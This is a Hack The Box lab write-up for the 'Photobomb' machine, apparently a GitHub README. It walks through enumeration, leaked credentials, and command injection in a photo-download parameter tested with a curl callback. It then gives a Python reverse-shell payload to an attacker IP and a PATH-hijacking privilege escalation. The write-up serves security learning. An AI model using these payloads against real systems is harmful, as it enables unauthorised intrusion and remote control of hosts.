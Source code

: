 # Hack-The-Box-writeups
Photobomb
1. Enumeration 
Let's start with a Nmap scan to discover services and open ports running on this machine.
nmap -sV -Sc 10.10.11.182
 ![image](https://user-images.githubusercontent.com/107045536/216795769-eacf443c-edec-451c-8de5-7842fe1cbb16.png)
There are only two open ports, port 22 and port 80 
- Web content and Subdomain enumeration don’t show anything  

2. Port 80 enumeration
photobomb.htb
 ![image](https://user-images.githubusercontent.com/107045536/216795779-e44da4f3-ff11-4552-a2a6-064c47d74f7a.png)
 
This link redirects to /printer which is asking for a username and password that we don’t know.
 ![image](https://user-images.githubusercontent.com/107045536/216795784-25623989-36b0-4b9b-8439-b98cc199a1b7.png)
Photobomb.htb source code 
 ![image](https://user-images.githubusercontent.com/107045536/216795788-83e10377-456b-4725-a7b4-91f901d9e78f.png)

Let's take a look at this JS file: 
![image](https://user-images.githubusercontent.com/107045536/216795793-e784324b-a978-4ced-a385-62579ce53b86.png)

Now let's log in with those credentials 
 ![image](https://user-images.githubusercontent.com/107045536/216795797-7d1aee88-10c2-4092-8db9-ace3991fdeac.png)

The website offers "DOWNLOAD PHOTO TO PRINT"
Let's intercept the request using Burpsuite  
 ![image](https://user-images.githubusercontent.com/107045536/216795804-dd8db109-55a5-4f52-a491-d23078e0fce1.png)

It seems vulnerable to command injection
Let's test for command injection, start "python web server" 
1. python3 -m http.server
2. inject ;curl+10.10.x.x:8000 to each parameter 
 ![image](https://user-images.githubusercontent.com/107045536/216795809-501793d1-c82c-40a0-8bab-86d329a11bf9.png)
We found that only the filetype parameter is vulnerable 
Lets create some reverse shell: https://www.revshells.com/ 
export+RHOST="10.10.14.34";export+RPORT=5555;python3+-c+'import+sys,socket,os,pty;s=socket.socket();s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));[os.dup2(s.fileno(),fd)+for+fd+in+(0,1,2)];pty.spawn("sh")'

Start the Netcat listener 
![image](https://user-images.githubusercontent.com/107045536/216795815-f88dbd93-f881-49b4-b084-f2bfacede87a.png)
![image](https://user-images.githubusercontent.com/107045536/216795821-274fe779-ae03-4388-a34e-74cd087113c3.png)

3. Privilege Escalation

Lets upgrade our shell 
export TERM=xterm
python3 -c 'import pty;pty.spawn("/bin/bash")'

Before running linpeas lets try the classic ways 
 ![image](https://user-images.githubusercontent.com/107045536/216795825-bc62f6e6-98a7-4f70-acec-4ca50402d139.png)

User wizard can run "cleanup.sh" with "sudo" privilege 



Lets check this script
 ![image](https://user-images.githubusercontent.com/107045536/216795830-dee8d555-5cd8-4bf4-9142-82fc036a8cf2.png)

So there are two interesting, “cd” and "find" called without their absolute path. so, we can exploit this misconfiguration by changing the "PATH variable"   
Lets create "cd" file that contains '/bin/bash'  and give 777 permission
 ![image](https://user-images.githubusercontent.com/107045536/216795832-47d85810-fd6b-44af-a32c-02d770ad60c7.png)

Add /tmp to the beginning of the PATH variable 
 ![image](https://user-images.githubusercontent.com/107045536/216795835-38437609-6b9d-415c-b709-ff9a7d0c9569.png)
![image](https://user-images.githubusercontent.com/107045536/216795840-455f1338-9933-4c2c-9a39-3554b565b9a9.png)




